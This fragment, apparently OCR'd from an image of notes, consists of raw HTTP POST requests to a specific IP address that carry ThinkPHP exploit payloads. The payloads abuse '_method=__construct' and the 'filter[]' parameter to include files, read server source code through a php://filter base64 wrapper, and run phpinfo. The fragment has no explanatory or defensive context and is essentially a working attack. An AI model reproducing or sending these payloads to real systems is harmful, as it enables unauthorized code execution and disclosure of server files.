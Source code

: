 POST
`http://101.32.184.39/index.php?s=index/index`
`_method=__construct&method=GET&filter[]=think\__include_file&server[]=1&get[]=PHP://filter/read=convert.base64-encode/resource=/var/www/html/thinkphp/library/think/console/command/Help.php`
`_method=__construct&filter[]=__include_file&method=POST&s=/var/www/html/www/build.php`




`http://101.32.184.39/index.php?s=captcha`
`_method=__construct&filter[]=phpinfo&method=GET&get[]=-1`